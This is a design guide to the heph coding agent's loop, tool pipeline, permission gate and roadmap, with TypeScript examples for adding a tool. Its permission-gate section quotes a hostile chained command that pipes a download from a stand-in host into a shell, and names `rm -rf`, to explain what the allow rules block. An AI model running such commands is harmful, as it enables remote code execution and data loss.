







# How the heph agent works

A visual guide to the agent loop, the tool system, and where heph sits among modern AI coding agents.
The diagrams match the code as of M4.1. For the folder-level map, see [`project-map.mmd`](../project-map.mmd).

**Contents**

1. [The anatomy of a modern AI agent](#1-the-anatomy-of-a-modern-ai-agent)
2. [The agent loop](#2-the-agent-loop)
3. [One turn, step by step](#3-one-turn-step-by-step)
4. [What happens to a single tool call](#4-what-happens-to-a-single-tool-call)
5. [The permission gate](#5-the-permission-gate)
6. [How to add a tool](#6-how-to-add-a-tool)
7. [Where heph goes next](#7-where-heph-goes-next)

---

## 1. The anatomy of a modern AI agent

Every modern coding agent (heph, Claude Code, Codex CLI, Aider, Cursor's agent) is built from the same five parts.
The language model only produces text and *requests* for tool calls. Everything else is ordinary code around it.

| Part | Job | In heph |
|------|-----|---------|
| **Model** | Decides what to say or which tool to call next | `LLMProvider` → `OpenAICompatibleProvider` (OpenAI, LM Studio) |
| **Loop** | Calls the model again and again until it stops asking for tools | `Agent.runTurn()` |
| **Tools** | The model's hands and eyes: read, search, edit, run | `Tool` + `ToolRegistry` + `ToolExecutor` |
| **Guardrails** | Decide which actions may happen, and ask the human | `PolicyPermissionGate`, `PathGuard`, `WorkspaceWriter`, `DangerousCommandDetector` |
| **Context** | What the model knows: system prompt, history, tool results, project notes | `SystemPromptBuilder`, `Conversation` (M5 adds `HEPH.md`, M6 adds compaction) |



The key idea: **the model never touches anything.** It can only ask. The harness decides whether the request is valid, whether it is allowed, and what the model sees afterwards.

---

## 2. The agent loop

This is the heart of `src/core/agent/Agent.ts`. A *turn* is everything that happens between your message and heph's final answer.
One turn can call the model many times (a *step* each time), because the model may ask for tools, read the results, and ask for more.



Design choices worth noticing:

- **`runTurn()` is an async generator.** It `yield`s `AgentEvent`s and never prints anything. The terminal UI renders them, and tests simply collect them into an array. The same agent could drive a web UI without any changes.
- **Tools run one after another, not in parallel.** That is slower but much safer once tools can write: two edits never race each other.
- **The history must always stay valid.** Every tool call gets a result (even "Cancelled"), and a failed turn is removed completely. Otherwise the next request to the API would be rejected.
- **`maxSteps` is a safety net** against a model that keeps calling tools forever, which small local models sometimes do.

---

## 3. One turn, step by step

Here is "What does `src/version.ts` export?" as a sequence. The model needs one tool call, then answers.



---

## 4. What happens to a single tool call

`ToolExecutor.run()` sends every call through the same fixed pipeline, and it **never throws**.
When something goes wrong, the model gets a clear error message as the tool result and can try again.
Small local models depend on this feedback loop a lot.



Two details matter here:

- **The preview comes before the question.** For an edit, the preview is the diff. If the text to replace isn't found, the preview fails and you are never asked to approve an impossible change.
- **A refusal is not an error.** It starts with `NOT APPLIED:`, so the model knows that nothing changed. Without that wording, models claimed changes they never made.

---

## 5. The permission gate

`PolicyPermissionGate` decides on every call. The rules are checked in order, and the **first match wins**.



Dangerous commands (rule 4) come *before* the allow rules on purpose: `rm -rf` always asks, even in `full-auto` mode.
Allow rules also never match commands that contain `;`, `&&`, `|`, `>` or `$(`, so `npm test && curl evil.sh | sh` can't hide behind an `npm test` rule.

The gate covers *whether* an action may happen. Separately, `PathGuard` and `WorkspaceWriter` cover *where* it may happen.
They block paths outside the project, secrets, `.git/` and `.heph/`, and edits to files the model hasn't read. **These checks apply even after you approve.**

---

## 6. How to add a tool

Tools follow the Open/Closed principle: you add a class and register it, and nothing else changes.
The agent doesn't know which tools exist. It only talks to the `ToolRunner` port.



### The five steps



A minimal read-only tool:

```ts
import { z } from 'zod';
import type { Tool, ToolContext, ToolResult } from '../Tool.js';

const schema = z.object({
  path: z.string().min(1).describe('File to count lines in, relative to the workspace root.'),
});
type Args = z.infer<typeof schema>;

export class CountLinesTool implements Tool<Args> {
  readonly name = 'count_lines';
  // The model sees only the name, the description and the schema. Write them for the model.
  readonly description = 'Count the lines in a text file. Cheaper than read_file for big files.';
  readonly schema = schema;
  readonly risk = 'read' as const; // read | write | execute: decides how the gate treats it

  describe(args: Args): string {
    return args.path; // shown next to the tool line in the UI
  }

  async execute(args: Args, { workspace }: ToolContext): Promise<ToolResult> {
    const text = (await workspace.readFile(args.path)).toString('utf8'); // ALWAYS via the Workspace
    const lines = text.split('\n').length;
    return { output: `${lines} lines`, summary: `${lines} lines` };
  }
}
```

Then register it in `src/container.ts`:

```ts
const registry = new ToolRegistry()
  .register(new ReadFileTool(deps.reads))
  // …
  .register(new CountLinesTool());
```

**Rules for good tools**

- **The description is the documentation for the model.** Say *when* to use the tool, not only what it does. Point to alternatives ("Use grep instead for…").
- **Errors should teach.** Throw messages that tell the model what to do next: `File not found: "x". Use glob to find it.`
- **Keep the output compact.** Every character costs tokens, and the executor cuts anything above 20k characters.
- **Write and execute tools** need `preview()` and their extra dependencies (`WorkspaceWriter`, `Shell`) through the constructor. They also need a test proving they can't run without approval in `ask` mode.
- **File access goes only through `Workspace` / `WorkspaceWriter`**, never `node:fs`. That keeps path escapes impossible.

---

## 7. Where heph goes next

What heph has now, compared with what full-featured agents add on top:

```mermaid
flowchart LR
    subgraph done["Built (M0–M4)"]
        a1["Streaming chat<br/>any OpenAI-compatible API"]
        a2["Agent loop<br/>+ read / search tools"]
        a3["Edit / write with diff approval<br/>+ /undo checkpoints"]
        a4["run_command<br/>danger detection · allow/deny rules"]
    end

    subgraph next["Roadmap (M5–M7)"]
        b1["M5 · heph run one-shot<br/>HEPH.md project instructions<br/>audit log"]
        b2["M6 · context management<br/>truncate → summarise<br/>save / resume sessions"]
        b3["M7 · v1.0 release<br/>npm heph-cli"]
    end

    subgraph modern["Modern agent features (stretch)"]
        c1["MCP client<br/>tools from any MCP server"]
        c2["Plan mode<br/>propose, then edit"]
        c3["Sub-agents<br/>isolated researcher context"]
        c4["Sandboxed execution<br/>Docker"]
        c5["Eval harness<br/>pass rate per model"]
    end

    done --> next --> modern

    classDef d fill:#e8f5e9,stroke:#2e7d32,color:#1b3409
    classDef n fill:#e3f2fd,stroke:#1565c0,color:#0d2a4d
    classDef m fill:#f3e5f5,stroke:#7b1fa2,color:#2e0b3a
    class a1,a2,a3,a4 d
    class b1,b2,b3 n
    class c1,c2,c3,c4,c5 m
```



Most of these features drop into the existing ports without touching `core/`:

- **MCP** is another way to fill the `ToolRegistry`: an adapter turns each MCP tool into a `Tool`.
- **Sub-agents** are a `Tool` whose `execute()` runs a second `Agent` with read-only tools and its own `Conversation`.
- **Plan mode** is a `PermissionMode` plus a system-prompt change.
- **A sandbox** is another `Shell` implementation.
